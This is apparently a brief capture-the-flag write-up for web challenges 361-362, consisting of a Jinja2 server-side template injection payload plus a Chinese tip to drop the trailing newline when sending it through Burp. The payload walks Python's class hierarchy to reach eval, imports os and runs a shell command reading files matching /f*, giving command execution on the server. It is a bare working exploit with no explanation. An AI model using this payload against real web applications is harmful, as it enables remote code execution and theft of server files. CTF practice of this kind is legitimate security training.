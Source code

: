 ## web 361-362

payload



```python
name={{[].__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /f*").read()')
```

没有回车（bp中应该删去）



